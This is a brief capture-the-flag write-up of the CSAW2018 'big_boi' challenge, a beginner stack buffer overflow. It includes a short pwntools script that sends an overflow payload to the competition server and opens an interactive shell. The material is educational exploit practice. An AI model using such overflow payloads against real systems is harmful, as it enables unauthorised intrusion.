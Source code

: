 # big_boi

This is an easy, 25-point binary exploitation problem from CSAW2018.

## Reconnaissance

This problem is really simple and appears designed for students solving their first buffer overflow challenge. Here's the vulnerable code:

![./vulnerable_code.png](./vulnerable_code.png)

I just need to overflow a buffer and replace an integer on the stack with another one.

Here's the code to solve it:
```
### exploit-boi.py

from pwn import *
context.binary = '/home/ctf/Documents/CSAW2018/bigboi25/boi'
from time import sleep

local = False
if local:
    p = process('./boi')
else:
    p = remote('pwn.chal.csaw.io', 9000)

time.sleep(1)
p.send("AAAABBBBCCCCDDDDEEEE\xee\xba\xf3\xca"+"\n")
p.interactive()
```

And the flag:

![solved_big_boi.png](./solved_big_boi.png)

Short and sweet.
